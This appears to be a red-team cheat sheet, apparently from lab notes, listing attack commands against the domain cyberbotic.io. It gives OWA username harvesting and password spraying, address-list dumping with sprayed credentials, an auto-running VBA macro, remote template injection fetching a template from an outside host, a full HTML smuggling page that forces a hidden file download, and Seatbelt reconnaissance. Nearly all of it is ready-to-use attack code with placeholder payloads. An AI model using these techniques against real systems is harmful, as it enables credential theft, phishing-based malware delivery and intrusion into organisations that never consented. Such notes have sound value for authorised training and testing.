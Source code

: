 Check Usernames
`Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList possible.txt -OutFile valid.txt`

Spray Passwords
`Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022`

Get all Users (with valid creds)
`Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile gal.txt`
#### VBA Macros
```vb
Sub AutoOpen()
	Dim Shell As Object
	Set Shell = CreateObject("wscript.shell")
	Shell.Run "notepad"
End Sub
```
#### Remote Template Injection
`remoteinjector.py -w http://nickelviper.com/template.dot /mnt/c/Payloads/document.docx`
#### HTML Smuggling
```html
<html>
    <head>
        <title>HTML Smuggling</title>
    </head>
    <body>
        <p>This is all the user will see...</p>

        <script>
        function convertFromBase64(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
            return bytes.buffer;
        }

        var file ='VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=';
        var data = convertFromBase64(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'test.txt';

        if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
        else {
            var a = document.createElement('a');
            document.body.appendChild(a);
            a.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = fileName;
            a.click();
            window.URL.revokeObjectURL(url);
        }
        </script>
    </body>
</html>
```
## Host Reconnaissance
`execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe -group=system`
#### Screenshot
`screenshot`